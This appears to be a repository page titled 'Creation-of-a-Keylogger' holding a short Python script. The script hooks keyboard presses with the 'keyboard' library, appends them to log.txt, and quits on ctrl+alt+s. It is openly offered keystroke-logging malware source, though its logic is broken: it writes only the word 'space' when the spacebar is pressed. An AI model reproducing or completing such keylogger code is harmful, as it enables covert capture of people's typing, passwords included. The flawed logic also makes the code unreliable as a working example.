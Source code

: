 # Creation-of-a-Keylogger

import keyboard

with open("log.txt","a") as log:
    def press(tecla):
        if tecla.name == 'space':
            log.write(tecla.name)

    def salir():
        exit()

    keyboard.add_hotkey('ctrl+alt+s', salir)
    keyboard.on_press(press)
    keyboard.wait()

